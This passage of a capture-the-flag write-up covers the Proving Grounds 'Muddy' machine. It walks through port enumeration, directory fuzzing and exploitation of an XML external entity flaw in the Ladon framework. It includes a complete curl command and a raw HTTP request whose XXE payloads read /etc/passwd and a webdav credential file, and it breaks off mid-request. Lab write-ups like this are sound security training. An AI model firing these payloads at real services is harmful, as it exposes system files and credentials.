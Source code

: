 ## 25/tcp   open  smtp       Exim smtpd

Nothing to exploit here!

## 80/tcp - open  http - Apache httpd 2.4.38 ((Debian))

### Directory Fuzzing

![img](/assets/images/CTF/Proving_Grounds/Muddy/web1.png)

Directory `webdav` was found but it's been password protected.

![img](/assets/images/CTF/Proving_Grounds/Muddy/dir.png)

## 8888/tcp open  http       WSGIServer 0.1 (Python 2.7.16)

![img](/assets/images/CTF/Proving_Grounds/Muddy/web2.png)

The framework Laden is vulnerable to [Ladon Framework for Python 0.9.40 - XML External Entity Expansion](https://www.exploit-db.com/exploits/43113) vulnerabilty.

### Exploitation

```text
curl -i -s -k -X $'POST' \
    -H $'Host: muddy.ugc:8888' -H $'User-Agent: curl/7.87.0' -H $'Accept: */*' -H $'Content-Type: text/xml;charset=UTF-8' -H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/sayhello\"' -H $'Content-Length: 496' -H $'Connection: close' \
    --data-binary $'<?xml version=\"1.0\"?>\x0a<!DOCTYPE uid\x0a[<!ENTITY passwd SYSTEM \"file:///etc/passwd\">\x0a]>\x0a<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"\x0axmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"\x0axmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"\x0axmlns:urn=\"urn:HelloService\"><soapenv:Header/>\x0a<soapenv:Body>\x0a<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\x0a<uid xsi:type=\"xsd:string\">&passwd;</uid>\x0a</urn:checkout>\x0a</soapenv:Body>\x0a</soapenv:Envelope>' \
    $'http://muddy.ugc:8888/muddy/soap11'
```

> **Note:** Change the `urn` element as per the method allowed in the application.

![img](/assets/images/CTF/Proving_Grounds/Muddy/web3.png)

Replace the `/etc/passwd` with `/var/www/html/webdav/passwd.dav` to get the `webdav` credentials.

**Request**

```http
POST /muddy/soap11 HTTP/1.1
Host: muddy.ugc:8888
User-Agent: curl/7.87.0
Accept: */*
Content-Type: text/xml;charset=UTF-8
SOAPAction: "http://muddy.ugc:8888/muddy/soap11/sayhello"
Content-Length: 514
Connection: close

<?xml version="1.0"?>
<!DOCTYPE uid
[
<!ENTITY passwd SYSTEM "file:/var/www/html/webdav/passwd.dav">
]>
<soapenv:Envelope
	xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xmlns:xsd="http://www.w3.org/2001/XMLSchema"
	xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
```